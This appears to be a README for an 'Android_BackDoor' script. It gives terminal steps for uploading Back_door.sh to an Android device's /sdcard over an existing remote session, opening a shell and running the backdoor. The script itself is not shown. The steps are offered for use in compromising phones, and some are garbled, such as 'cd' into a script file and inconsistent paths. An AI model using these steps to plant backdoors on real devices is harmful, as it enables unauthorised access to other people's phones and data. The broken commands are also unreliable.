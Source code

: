 #Author : Utkarsh Singh

#Copyright (C) 2020

#Android_BackDoor

Configuration :-

git clone <paste_url>
  
cd Back_door.sh

chmod +x Back_door.sh

#After that you need to get into root directory of android device by typing “cd /” in terminal.

#Now you need to get into /sdcard location by typing “cd /sdcard” in same terminal.

#Here you can upload your backdoored script by typing “upload Back_door.sh” in same terminal.

#Now all we have to do is execute the script once, and then everything will be done automatically, type “shell” to enter into system’s shell mode of android device.

#Here you need to again go into same location i.e. cd /root/sdcard and execute the backdoor using “sh Back_door.sh“.

#your script has been executed successfully, you can terminate the execution by pressing CTRL + C and then type Y.

done!

# If You Are Online ByDefault You Are Vulnerable...!!
